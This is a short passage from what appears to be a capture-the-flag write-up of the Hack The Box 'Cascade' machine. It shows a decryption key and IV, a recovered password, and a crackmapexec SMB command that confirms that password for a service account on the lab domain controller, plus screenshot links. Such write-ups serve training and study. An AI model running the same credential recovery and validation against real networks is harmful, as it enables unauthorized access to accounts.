 c4scadek3y654321
1tdyjCbY1Ix49842


w3lc0meFr31nd

![image-center](/images/htb/htb_cascade_aes_decrypt.png){: .align-center}

$ crackmapexec smb 10.129.155.114 -d cascade.local -u arksvc -p w3lc0meFr31nd
SMB         10.129.155.114  445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.129.155.114  445    CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd


![image-center](/images/htb/htb_cascade_bloodhound_arksvc.png){: .align-center}
